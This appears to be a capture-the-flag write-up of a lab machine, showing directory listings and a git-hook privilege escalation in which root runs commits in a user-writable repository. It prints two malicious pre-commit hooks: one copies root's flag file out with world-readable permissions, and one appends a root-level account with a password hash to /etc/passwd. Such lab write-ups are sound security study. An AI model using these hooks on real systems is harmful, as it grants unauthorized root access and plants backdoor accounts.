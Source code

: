 ```bash
-rw-r--r-- 1 dev01 dev01  807 Apr  4  2018 .profile
drwx------ 3 dev01 dev01 4096 May 23 15:08 snap
drwxr-xr-x 2 dev01 dev01 4096 May  4 16:35 .ssh
-rw-r----- 1 dev01 dev01   33 May 23 09:04 user.txt
dev01@opensource:~$ ls -al .git/
total 56
drwxrwxr-x  8 dev01 dev01 4096 May 23 15:35 .
drwxr-xr-x  9 dev01 dev01 4096 May 23 15:35 ..
drwxrwxr-x  2 dev01 dev01 4096 May  4 16:35 branches
-rw-r--r--  1 dev01 dev01   22 May 23 15:35 COMMIT_EDITMSG
-rw-rw-r--  1 dev01 dev01  269 May 23 15:34 config
-rw-rw-r--  1 dev01 dev01   73 Mar 23 01:18 description
-rw-rw-r--  1 dev01 dev01  117 Mar 23 01:19 FETCH_HEAD
-rw-rw-r--  1 dev01 dev01   21 May 23 15:35 HEAD
drwxrwxr-x  2 dev01 dev01 4096 May  4 16:35 hooks
-rw-rw-r--  1 dev01 dev01 1421 May 23 15:35 index
drwxrwxr-x  2 dev01 dev01 4096 May  4 16:35 info
drwxr-xr-x  3 dev01 dev01 4096 May  4 16:35 logs
drwxrwxr-x 55 dev01 dev01 4096 May 23 15:33 objects
drwxrwxr-x  5 dev01 dev01 4096 May  4 16:35 refs
```

## Git hook privilege escalation
- [Git - Git Hooks](https://git-scm.com/book/it/v2/Customizing-Git-Git-Hooks)
- [Git hooks example - GitKraken Client Documentation](https://support.gitkraken.com/working-with-repositories/githooksexample/)

>[!tip]
>Git hooks are **special scripts** **executed before** the actual **git action**, like git commit or git push. Because root executes some git actions on user writable git directory, it is possible to inject git hooks to execute command with high privileges.

Custom git hook:

```bash
dev01@opensource:~$ cat /home/dev01/.git/hooks/pre-commit
#!/bin/sh
cp /root/root.txt /dev/shm/root.txt
chmod 777 /dev/shm/root.txt
exit 1
```

PoC:

```bash
dev01@opensource:~$ ls -al /dev/shm/root.txt
-rwxrwxrwx 1 root root 33 May 23 15:51 /dev/shm/root.txt
dev01@opensource:~$ cat /dev/shm/root.txt
2d33ed1fbb89e74c52a98a8ca3ec9147
```

Privilege escalation PoC:

```bash
dev01@opensource:~$ nano .git/hooks/pre-commit
dev01@opensource:~$ cat .git/hooks/pre-commit
#!/bin/bash
echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
exit 1
dev01@opensource:~$ chmod +x .git/hooks/pre-commit
```
